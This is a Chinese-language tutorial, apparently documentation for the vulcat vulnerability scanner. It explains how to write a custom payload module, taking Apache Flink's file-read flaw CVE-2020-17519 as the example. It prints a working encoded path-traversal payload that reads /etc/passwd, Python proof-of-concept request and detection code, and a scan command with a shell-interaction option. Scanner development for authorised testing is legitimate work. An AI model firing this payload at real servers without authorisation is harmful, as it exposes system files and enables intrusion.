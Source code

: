 # 自定义攻击载荷-示例

##### 本节以Apache Flink的任意文件读取漏洞CVE-2020-17519为例

## 1. 准备模板文件

此处新建一个目录payloads2，并将载荷模板<code>demo.py</code>复制一份，放入该目录
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/custom-payloads-fileread/02.png" alt=""><figcaption></figcaption></figure>


打开模板文件，其结构如下
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/custom-payloads-fileread/03.png" alt=""><figcaption></figcaption></figure>


你可以在上方添加注释，例如：
* 漏洞名称
* 漏洞编号
* Payload来源
* 漏洞描述
* POC / EXP作者（编写载荷的人）
* 作者个人主页链接
* ...等
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/custom-payloads-fileread/04.png" alt=""><figcaption></figcaption></figure>

## 2. 定义Payload

在__init__方法中，定义该漏洞的有效载荷

此处为简便，只定义了一条载荷。
* 在实际运用中，需要对路径、系统等因素设置不同的载荷
* 例如Linux读取/etc/passwd文件
* Windows读取C:/Windows/win.ini文件等

```python
self.payloads = [
    {'path': 'jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd'},
]
```

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/custom-payloads-fileread/05.png" alt=""><figcaption></figcaption></figure>



## 3. 编写POC主体

### 3.1 POC基本结构

```python
client = clients.get('reqClient')
        
vul_info = {
    'app_name': 'ApacheFlink',
    'vul_type': 'FileRead',
    'vul_id': 'CVE-2020-17519',
}
```

1. 获取请求客户端<code>client</code>
2. 定义漏洞信息<code>vul_info</code>，其中的三个字段名称是固定的：app_name、vul_type、vul_id

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/custom-payloads-fileread/06.png" alt=""><figcaption></figcaption></figure>


关于请求客户端<code>client</code>，vulcat包装了<code>requests</code>以及<code>HackRequests</code>这两个库
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/custom-payloads-fileread/07.png" alt=""><figcaption></figcaption></figure>

包装过后，可以对HTTP请求进行统一处理

并为其添加一些常用参数，使其更易使用，不用频繁添加参数，例如：
* requests默认将无视HTTPS证书警告（verify=False）
* 默认超时时间10秒
* 统一的HTTP代理
* 域名
* 协议://域名
* ...等
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/custom-payloads-fileread/08.png" alt=""><figcaption></figcaption></figure>


```python
for payload in self.payloads:
    path = payload['path']
```

让我们回到POC的编写当中

此时你可以遍历<code>self.payloads</code>，并接收其中的参数
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/custom-payloads-fileread/09.png" alt=""><figcaption></figcaption></figure>

### 3.2 请求调用

```python
res = client.request(
    'get',
    path,
    vul_info=vul_info
)
if res is None:
    continue
```

使用客户端<code>client</code>发出请求
* 第一个参数：HTTP方法（大小写不敏感）
* 第二个参数：URL路径<b>（注意，只需要路径，不需要前面的http://xxx.com/，因为vulcat会自动将它们拼接起来）</b>
* 额外的参数：vul_info漏洞信息，将作用于HTTP日志（也就是--log选项输出的HTTP信息）

接收请求之后，你需要判断结果是否为<code>None</code>
* 如果为None，说明请求失败，跳过当前载荷，继续下一轮循环
* 如果不为None，说明请求成功，接下来将判断是否存在漏洞

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/custom-payloads-fileread/10.png" alt=""><figcaption></figcaption></figure>

### 3.3 判断结果 并 返回漏洞信息

```python
from lib.tool import check

if (check.check_res_fileread(res.text)):
    results = {
        'Target': res.request.url,
        'Type': [vul_info['app_name'], vul_info['vul_type'], vul_info['vul_id']],
        'Request': res
    }
    return results
```

对于文件读取漏洞，你可以使用vulcat自带的方法<code>check.check_res_fileread()</code>来进行检测
* 如果目标存在文件读取漏洞，则该方法返回 True
* 否则返回 False

如果存在漏洞，则返回结果results
* 字符串数据，将以 <b>key:value</b> 的方式显示（例如Target）
* 列表数据，将以 <b>key: v1 v2 v3</b> 的方式显示（例如Type）
* Response数据，将显示一个<b>HTTP请求数据包</b>（例如Request）

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/custom-payloads-fileread/13.png" alt=""><figcaption></figcaption></figure>


注意：使用该方法之前需要先导入模块
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/custom-payloads-fileread/12.png" alt=""><figcaption></figcaption></figure>


这是vulcat自带的<code>check.check_res_fileread()</code>函数，你可以定义统一的检测需求
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/custom-payloads-fileread/15.png" alt=""><figcaption></figcaption></figure>



### 3.4 Start()

最后，在Start方法中进行调配，此处直接返回一个<code>self.POC(clients)</code>，其中传递了一个参数clients
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/custom-payloads-fileread/14.png" alt=""><figcaption></figcaption></figure>


## 4. 装填载荷

### 4.1 修改载荷文件名称

命名规则：<b>框架名称-编号-漏洞类型</b>
* 如果框架名称太长，可以使用 - 分隔
* 可以同时存在多个漏洞类型，例如 apache-httpd-cve-2021-42013-rce-fileread

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/custom-payloads-fileread/16.png" alt=""><figcaption></figcaption></figure>


### 4.2 把载荷 放入载荷路径

把大象装进冰箱需要几步？
把大象装进冰箱需要几步？
把大象装进冰箱需要几步？

1. 打开<code>vulcat/config.yaml</code>查看载荷路径
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/custom-payloads-fileread/17.png" alt=""><figcaption></figcaption></figure>

2. 把刚刚编写的文件丢进<code>payloads/</code>目录
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/custom-payloads-fileread/18.png" alt=""><figcaption></figcaption></figure>

3. 关闭<code>vulcat/config.yaml</code>文件

（此步骤没有图片）


## 5. 扫描测试

现在，vulcat会自动识别你编写的载荷，你可以运行vulcat测试效果

```bash
python vulcat.py -u <目标地址> --log 3 -v <载荷名称>
```

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/custom-payloads-fileread/19.png" alt=""><figcaption></figcaption></figure>


<code>-v/--vuln</code>选项支持模糊匹配，你不需要输入完整的载荷名称
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/custom-payloads-fileread/20.png" alt=""><figcaption></figcaption></figure>

模糊匹配
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/custom-payloads-fileread/21.png" alt=""><figcaption></figcaption></figure>


<code>--shell</code>支持，可以使用该选项进入Shell交互模式，以持续利用漏洞：

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/custom-payloads-fileread/22.png" alt=""><figcaption></figcaption></figure>


## 6. 废话

你可以为载荷创建一个专门的目录，用于分类

（不会影响载荷的效果，就算有几百层目录，vulcat也可以识别 并装填Payload）

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/custom-payloads-fileread/23.png" alt=""><figcaption></figcaption></figure>

